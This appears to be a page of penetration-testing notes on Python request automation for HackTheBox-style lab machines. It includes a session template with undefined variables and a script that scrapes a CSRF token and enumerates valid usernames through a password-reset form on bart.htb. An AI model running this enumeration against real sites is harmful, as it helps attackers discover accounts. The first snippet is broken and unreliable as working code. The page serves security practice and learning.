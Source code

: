 # Python Automation 1

## Sessions request

```text
import requests
import re

def TestRequest(filename):
    
    url = "http://10.10.10.93/transfer.aspx"
    
    s = requests.session()
    
    # For GET requests
    data1 = s.get(url)
    print(r.text)
    
    # For post requests
    # post_data = { 'session': value, 'text': value2 }
    data2 = s.post(url, data=post_data)
    
    
TestRequest("Please Subscribe")
```

## Example 1 : Serialized POST request automation for upload bypass

![request](../../../.gitbook/assets/image%20%28120%29.png)

![python automation](../../../.gitbook/assets/image%20%28121%29.png)

Here burp was used to validate if the request is generate properly.

![final script](../../../.gitbook/assets/image%20%28122%29.png)

## Example 2 : Using regular expression

```text
import requests, re, signal, sys

#Send Request

if __name__ == '__main__':

    url = "http://bart.htb/monitor/?action=forgot"

    s = requests.session()

    data = s.get(url)

    csrf_value = re.findall(r'<input type="hidden" name="csrf" value="(.*?)"', data.text)

    # print(csrf_value[0])

    with open("/home/user/Documents/HTB/Bart/content/users.txt", "r") as f:
        for username in f.read().splitlines():
            post_data = {
                    'csrf' : csrf_value,
                    'user_name' : '%s' % username
            }

            data = s.post(url, data=post_data)

            if "The provided username could not be found." not in data.text:
                print("Valid User is : %s" % username)

```

